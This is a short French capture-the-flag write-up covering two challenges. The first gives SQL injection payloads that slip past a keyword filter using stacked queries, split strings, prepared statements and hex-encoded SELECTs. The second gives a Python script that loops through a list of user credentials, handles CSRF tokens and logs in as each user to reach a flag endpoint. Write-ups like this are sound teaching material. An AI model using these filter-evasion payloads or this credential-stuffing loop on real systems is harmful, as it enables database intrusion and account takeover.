 ## Filtre ou Expresso

L'idée était de passer par une requête préparée:

```sql
1;prepare r from concat('se','lect ',unhex('2a'),' fr','om',' Fl','ag');execute r --
```

ou

```sql
1; EXECUTE IMMEDIATE UNHEX('53454c454354202a2066726f6d20466c6167');
```

## LarHack

L'idée était de:

- scanner les routes api pour découvrir api/users et api/flag
- faire un script qui connecte un utilisateur avec une boucle parmis les 2000 puis renvoyer vers la route api/flag avant de deconnecter l’utilisateur 

```python
#!/usr/bin/env python3

import requests
import json
from bs4 import BeautifulSoup

URL = "http://10.22.148.24"

def brute_force():
    with open('users.json', 'r') as file:
        users = json.load(file)

    i = 0
    for user in users:
        req = requests.get(f'{URL}/login', allow_redirects=True)
        soup = BeautifulSoup(req.text, 'html.parser')
        csrf_token = soup.find('input', {'name': '_token'})['value']

        login_data = {
            'email': user['email'], 
            'password': user['mdp'],
            '_token': csrf_token,           
        }

        print(f"[{str(i)}] Trying user {user['email']}...")
        response = requests.post(f'{URL}/login', data=login_data, allow_redirects=False, cookies=req.cookies)
        if response.status_code == 302:
            flag_response = requests.get(f'{URL}/api/flag', cookies=response.cookies)
            if flag_response.text != 'hsr{c_est_pas_ca}':
                print('[+] Flag found:', flag_response.text)
                break

        requests.get(f'{URL}/disconnect', cookies=response.cookies, allow_redirects=True)
        
        i += 1
            
if __name__ == '__main__':
    brute_force()
```
